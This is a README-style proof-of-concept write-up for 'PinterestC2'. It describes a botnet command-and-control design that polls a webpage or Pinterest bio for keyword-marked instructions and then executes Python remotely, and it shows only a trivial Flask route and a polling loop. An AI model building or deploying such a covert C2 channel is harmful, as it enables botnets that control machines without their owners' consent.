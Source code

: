## PinterestC2
Proof of Concept project:
Using webpages as a Command Center to remote execute python.

### 1) The context.
On a discord server I am a part of, a message was sent that caught my eye:
``` "making a botnet using pinterest" ```
At first, I was baffled. What? Why? What? But the more I thought about it, the more I had to give it a shot. 
Here's a brief PoC writeup on how it works. All of the code used in this project can be found in the "FOLDER" folder.
#
### 2) The plan.
Although the original idea was to use a pinterest bio to relay the code, for demonstration purposes we're going to build our own web-app.
Since I am already familiar with Flask, that is what we're going to be using for the frontend. 
The whole setup consists of 3 separate, distinct apps.
#### 1st app: reads in consistent intervals the predefined html page that has the instructions. 
  Finds the keywords and continues accordingly.
#### 2nd app: is our webapp, that we can locate on a external server. 
  Display a html, and have functionality to change the contents according to "user input".
  On a social media platform this "user input" could be i.e changing your bio or name.
#### 3rd app: works as an automated script to insert user input into our webapp.
  To actually control our C2 remotely, we might want to create a script that could change the "user input" on the site.
  In the example of pinterest this would mean a script that takes your input in terminal, and then inserts this input 
  into your pinterest profile, as either name or a sentence in your bio.
 #
 ### 3) The execution.
#### Setting up the website
I wanted to start by building a simple website to test my scraper.  
  ```
  @app.route('/')  
  def home():  
    return "Welcome to rest a pint!"  
  ```
Afterwhich I could test my scraper. This has one problem though,
if I do a simple
``` page = requests.get(url); print(page.text) ```  
It gives me a plain string, ``` "Welcome to rest a pint!" ```. If we did the same to, say pinterest.com the output would be the whole HTML of the mainpage.
To test out the parsing and coming closer to a real use case, we shall make it return a simple .html template, called "mainpage"
#### Setting up the scraper
This was fairly easy. 
What you do is set up a loop, wait a set amount of time, pull your desired url as "page" and assing it .text to a variable to later handle its contents.
```  
import time  
import requests as req  
  
while True:  
    time.sleep(1)  
    page = req.get(YourUrlHere)  
    content = page.text  
```
We can now handle the contents of the html page. To begin, we might want to try to find a keyword from the page. Let's use something distinct, like !pC2.
```  
if "!pC2" in contents:  
  contents.split("!pC2")  
```

